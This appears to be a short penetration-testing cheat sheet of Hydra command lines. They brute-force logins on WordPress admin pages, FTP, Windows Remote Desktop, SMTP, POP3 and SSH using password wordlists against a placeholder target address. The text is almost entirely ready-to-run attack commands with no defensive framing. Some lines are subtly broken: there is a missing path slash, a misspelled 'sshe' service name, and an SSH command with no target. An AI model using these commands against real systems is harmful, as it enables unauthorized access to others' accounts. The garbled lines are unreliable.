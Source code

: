 				brute force a Wordpress admin login
hydra -l admin -P passwords.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
 
				FTP known user and rockyou password list
hydra -t 1 -l admin -P passwords.txt -vV $ip ftp

				attack Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P passwords.txt rdp://$ip

				SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

				POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

						SSH
				
				Wordlist Password
hydra -l username -P WORDLIST
				Wordlist Username and Password
hydra -L users.txt -P passwords.txt -t 1 -u $ip sshe